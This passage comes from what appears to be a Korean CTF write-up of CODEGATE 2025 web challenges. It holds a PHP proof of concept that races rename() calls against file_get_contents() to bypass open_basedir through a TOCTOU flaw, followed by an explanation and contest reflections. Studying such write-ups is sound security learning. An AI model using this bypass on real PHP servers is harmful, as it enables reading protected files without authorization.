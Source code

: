```php
    for ($i = 0; $i < $count; $i++) {
        $r = @file_get_contents("../../flag.txt");
        if ($r !== false) {
            var_dump($r);
        }
    }
} else {
    // we are the child
    for ($i = 0; $i < $count; $i++) {
        rename("/tmp/adir/bdir", "/tmp/bdir");
        rename("/tmp/bdir", "/tmp/adir/bdir");
    }
}
?.
```

위 PoC에 대하여 보충설명이 있다면 PHP의 파일 관련 함수들(`file_get_contents`, `fopen` 등)은 호출 시 내부적으로 `php_check_open_basedir` 함수를 호출한다. 이 함수는 다시 `expand_filepath`를 호출하며 `OnUpdateBaseDir()`와 유사한 검증 로직을 수행한다.

공격의 핵심은 두 개의 프로세스가 동시에 실행되면서 발생하는 경쟁 상태이다.

1. **부모 프로세스**: `file_get_contents("../../flag.txt")` 반복 실행
2. **자식 프로세스**: `/tmp/A/B`와 `/tmp/B` 디렉토리 간 `rename` 반복 수행

이 과정에서 경로 해석과 `open_basedir` 검증 사이의 시간차(TOCTOU)를 이용해 제한을 우회할 수 있다.

따라서 위에서 언급했듯이 디렉토리 조작으로 인해 경로 해석 시점과 검증 시점 사이에 작업 디렉토리가 변경되면 "The current working directory has been unlinked." 에러가 발생하지만, 이미 해석된 경로로 파일 접근이 가능해진다.

![flag](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2037.png)

flag

# Conclusion

이번 대회는 단순히 하나의 취약점만으로 해결되는 문제가 아니라, 여러 취약점을 체이닝해야 풀 수 있는 문제가 많아 여러모로 배울 점이 많았다. 특히 일반부에서는 **WEB+PWNABLE**, **WEB+WEB3**처럼 서로 다른 영역을 결합한 문제가 출제되어 난이도가 상당히 높았다. 청소년부 문제들은 일반부에 비해 비교적 단순한 형태였지만, 세밀한 이해와 정확한 접근을 요구하여 학생들이 학습하기에 적합한 구성으로 느껴졌다.

그중에서도 가장 인상 깊었던 문제는 일반부에서 출제된 Node.js ROP 문제(chachadotcom)였다. 단순히 임의 파일 작성에서 끝나는 것이 아니라, 이를 node바이너리에다가 ROP를 사용하여 실제 RCE로 연계하는 흐름은 매우 흥미로웠다. 이러한 임의파일 작성을 통한 RCE 공격연구는 예전부터 꾸준히 이어져 왔으며, 잘 알려진 PHP 파일 기반 트릭뿐 아니라 최근 발표된 Python 관련 연구에서도 비슷한 기법이 등장한 바 있다.

